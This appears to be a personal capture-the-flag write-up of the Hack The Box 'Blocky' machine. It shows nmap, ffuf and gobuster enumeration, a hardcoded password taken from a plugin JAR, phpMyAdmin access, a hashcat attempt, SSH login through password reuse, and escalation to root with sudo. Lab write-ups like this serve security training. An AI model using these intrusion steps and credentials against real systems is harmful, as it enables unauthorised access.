 Nmap Enumeration
```
PORT     STATE  SERVICE REASON         VERSION
21/tcp   open   ftp     syn-ack ttl 63 ProFTPD 1.3.5a
22/tcp   open   ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqVh031OUgTdcXsDwffHKL6T9f1GfJ1/x/b/dywX42sDZ5m1Hz46bKmbnWa0YD3LSRkStJDtyNXptzmEp31Fs2DUndVKui3LCcyKXY6FSVWp9ZDBzlW3aY8qa+y339OS3gp3aq277zYDnnA62U7rIltYp91u5VPBKi3DITVaSgzA8mcpHRr30e3cEGaLCxty58U2/lyCnx3I0Lh5rEbipQ1G7Cr6NMgmGtW6LrlJRQiWA1OK2/tDZbLhwtkjB82pjI/0T2gpA/vlZJH0elbMXW40Et6bOs2oK/V2bVozpoRyoQuts8zcRmCViVs8B3p7T1Qh/Z+7Ki91vgicfy4fl
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNgEpgEZGGbtm5suOAio9ut2hOQYLN39Uhni8i4E/Wdir1gHxDCLMoNPQXDOnEUO1QQVbioUUMgFRAXYLhilNF8=
|   256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILqVrP5vDD4MdQ2v3ozqDPxG1XXZOp5VPpVsFUROL6Vj
80/tcp   open   http    syn-ack ttl 63 Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos  reset ttl 63
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

add http://blocky.htb to vhost `/etc/hosts` and then  go to `http://blocky.htb`

also run the nmap scan again just for port 80 to see the details
```
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18
|_http-generator: WordPress 4.8
|_http-title: BlockyCraft &#8211; Under Construction!
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: 127.0.1.1
```


subdomain enumeration
```
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://blocky.htb' -H "Host:FUZZ.blocky.htb" -fs 178
```
returns nothing -> no subdomains 

web directory enumeration 
```
gobuster dir -u http://blocky.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
returns 
```
/.htaccess            (Status: 403) [Size: 294]
/.htpasswd            (Status: 403) [Size: 294]
/.hta                 (Status: 403) [Size: 289]
/index.php            (Status: 301) [Size: 0] [--> http://blocky.htb/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/server-status        (Status: 403) [Size: 298]
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
Progress: 4744 / 4745 (99.98%)
/xmlrpc.php           (Status: 405) [Size: 42]
```

important ones 
/phpmyadmin/ -> goes to the phpmyadmin login portal -> most likely a database? 
/wp-includes/ -> can see all files structures in the web root directory but cannot be the contend of the files 
/plugins/ -> can see BlockyCore.jar file and grief.prevention-1.1...
![](../Assets/Screenshot%202025-05-22%20at%202.38.10%20PM.png)

Download both files and unzip them. 
In BlockyCore.jar, there is a BlockCore.class (its a java plugin)
cat it:
![](../Assets/Screenshot%202025-05-22%20at%202.45.21%20PM.png)
im guessing the sql username is `root` and the password is `8YsqfCTnvxAUeduzjNSXe22` -> we try to login into php my admin with this credentials
![](../Assets/Screenshot%202025-05-22%20at%202.47.07%20PM.png)
then under the wordpress database we can see wp_users
![](../Assets/Screenshot%202025-05-22%20at%202.51.08%20PM.png)
then we can see that there is a account with user_login: `Notch`and pass: `$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/`
![](../Assets/Screenshot%202025-05-22%20at%202.51.39%20PM.png)

we can try to crack the hash using hashcat
```
hashcat -m 400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
this doesn't return anything

being desperate, i tried to login everything with the usernames 'root' and 'notch' and the only password '8YsqfCTnvxAUeduzjNSXe22'

managed to ssh and ftp into the box with user 'notch' and password '8YsqfCTnvxAUeduzjNSXe22'

both works
![](../Assets/Screenshot%202025-05-22%20at%203.17.14%20PM.png)![](../Assets/Screenshot%202025-05-22%20at%203.17.26%20PM.png)

and we are able to get the user flag

running 
```
sudo -l
```

```
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
that means Blocky is in the sudo-ers group and can use sudo 
run
```
sudo su
```
and then now we are root
we can go to the root directory and then cat out the root.txt file

yay we have pwned the machine!